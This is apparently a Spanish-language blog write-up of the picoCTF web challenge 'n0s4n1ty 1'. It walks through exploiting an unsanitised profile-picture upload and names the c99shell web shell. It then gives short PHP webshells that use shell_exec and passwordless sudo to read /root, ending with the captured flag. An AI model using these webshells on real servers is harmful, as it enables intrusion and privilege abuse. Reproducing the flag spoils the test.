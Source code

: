 ```yaml
---
title: n0s4n1ty
date: 2025-03-29 19:00:00 +0200
author: pablo
categories: [writeup, picoctf]
tags: [picoctf, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

n0s4n1ty 1

>Author: Prince Niyonshuti N.
Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
{: .prompt-tip }

Al lanzar la instancia tenemos acceso a una web donde aparece un formulario para subir un archivo. 

Bueno parece una oportunidad para subir una shell. La forma de aproximarse a estos formularios web es ver si la entrada está sanitizada. 
Sanitizar la entrada significa que a nivel de la aplicación, el código de la misma maneja que tipo de archivos se pueden subir, de que tamaño,
de que extensión y otros filtros que deberían comprobarse pero estos ejercicios suelen ser más sencillos que todo eso. 

The file c99.php has been uploaded Path: uploads/c99.php. Uso c99shell, hay muchas PHP shells [hacktools#web-shells](../hacktools#web-shells). Aunque tiene unas cuantas funcionalidades ya integradas con estos entornos no se puede ir tan a lo bestia, no funciona, así que probaré algo más manual. 

Codifico esta web en PHP, como no se sanitiza la entrada el servidor es posible que ejecute todo el código PHP que 
se encuentra dentro de las rutas de la aplicación incluido el directorio de uploads. Así que a subir una _webshell_ toca.
Poco a poco voy comprobando que la cosa funciona, prueba y error, determino la ruta completa hacia /root.

```
<?php
$output = shell_exec("pwd");
echo $output;
?>
```
Tengo resultados, el código se ha ejecutado, ahora sabemos que el archivo que hemos subido está exactamente en:
```/var/www/html/uploads ```

Después de hacer algunos cambios y resubir el archivo varias veces caigo en la cuenta de que con el directorio root no estoy teniendo suerte, añado una salida para comprobar que php se está ejecutando ```echo "Salida commando\n";```, así que añado sudo y descubro la sorpresa, el usuario actual ha sido añadido al fichero sudoers y ni siquiera necesita una password para ejecutar comandos del sistema.

```
<?php
$output = shell_exec("whoami");
echo "Salida commando\n";
echo $output;
?>
```

```Salida commando www-data```

``` 
<?php
$output = shell_exec("sudo ls ../../../../root/");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando flag.txt```

Codifico una última versión para capturar la banderita.
```
<?php
$output = shell_exec("sudo cat ../../../../root/flag.txt");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}```

flag: **picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}**

Un buen ejemplo de como una mala praxis a la hora de asignar permisos a usuarios en este caso www-data en combinación con la falta de sanitización
de las entradas en la aplicación permite un RFI (Remote file inclusion) que se converte en un RCE (Remote code execution). Pues aunque el código PHP se ejecuta del lado del servidor la acción de visitar a la página subida es la que lleva a cabo la ejecución en el servidor remotamente. 
Sanitizen sus entradas o perezcan en el camino. 
